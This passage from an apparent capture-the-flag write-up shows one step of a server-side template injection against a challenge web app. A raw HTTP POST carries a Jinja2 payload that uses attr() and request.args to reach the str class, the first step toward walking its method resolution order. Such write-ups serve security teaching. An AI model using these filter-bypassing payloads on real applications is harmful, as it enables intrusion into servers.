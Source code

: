 **Retrieving str class.**

![wc11](/assets/playsecure2021/wc11.png)

{% raw %}
```python
POST /generate?class=__class__ HTTP/1.1
Host: web.ps.ctf.ae:8882
Content-Length: 92
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://web.ps.ctf.ae:8882
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://web.ps.ctf.ae:8882/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

firstName=a&lastName=b&desc={% set string = "abc" %}{{string|attr(request.args.class)|safe}}
```
{% endraw %}

**Retrieving Method Resolution Order of str Class**

![wc12](/assets/playsecure2021/wc12.png)
